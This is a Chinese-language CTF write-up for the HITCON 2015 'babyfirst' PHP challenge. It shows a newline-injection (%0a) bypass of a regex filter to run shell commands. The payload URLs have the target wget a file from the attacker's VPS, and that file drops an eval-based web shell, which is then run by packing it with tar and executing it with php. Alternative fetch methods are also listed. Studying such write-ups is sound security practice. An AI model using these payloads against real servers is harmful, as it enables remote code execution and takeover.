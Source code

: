 # hitcon-2015-babyfirst

```php
 <?php
    highlight_file(__FILE__);

    $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
    if ( !file_exists($dir) )
        mkdir($dir);
    chdir($dir);

    $args = $_GET['args'];
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
    }
    exec("/bin/orange " . implode(" ", $args));
?>
```

题目存在几个难点:

1.绕过正则及 /bin/orange 的前缀执行命令

2.写入木马并执行

## 绕过
该问题是正则表达式的一个特性，**`/^\w+$\` 中的 `$` 当遇到字符串的结尾是换行符(%0a)时还是可以匹配**。于是就解决了第一个问题，绕过了正则，同时利用换行符得以执行其他命令。
`http://ip/?args[]=xxx%0a&args[]=touch&args[]=test`

## 写入木马
由于只能传入字母，直接写文件肯定不行，那么只有尝试下载文件了。

### wget 下载
由于 ip 地址的多样性（可参考[IP地址混淆](https://findneo.tech/171125TextualRepresentationOfIPAddress/))，可以使用十进制表示 ip 从而避免使用 `.`。

但又由于 wget 下载不到后台的 php 源码，只能获取 php 解析之后的 html 文件，因此下载之后没有办法直接执行。

### php 执行代码
这里又存在一个知识点：**在 Linux 中 PHP 能够执行非压缩的打包的 PHP 文件**

![php_tar](img/php_tar.png)


## getshell
于是思路就出来了，先在自己的 vps 上创建一个 index.html:

```php
<?php
    file_put_contents('shell.php', '<?php 
    header("Content-Type: text/plain");
    print eval($_POST["cmd"]);
    ?>');
```

接着执行
```
http://ip/?args[]=xxx%0a&args[]=mkdir&args[]=exploit   创建exploit文件夹

http://ip/?args[]=xxx%0a&args[]=cd&args[]=exploit%0a&args[]=wget&args[]=vps十进制地址   进入exploit文件夹，下载 vps 的 index.html文件。

http://ip/?args[]=xxx%0a&args[]=tar&args[]=cvf&args[]=archived&args[]=exploit 压缩文件夹

http://ip/?args[]=xxx%0a&args[]=php&args[]=archived  执行文件
```

## 其他解法
题目的核心就是将 PHP 源文件下载到服务器，因此还存在其他几种解法

```shell
1. busybox ftpget FTP 服务器

2. twistd telnet

3. wget VPS # VPS 302 重定向到 FTP 协议
```

## References
[Babyfirst的分析和解答](https://blog.spoock.com/2017/09/09/Babyfirst-writeup/)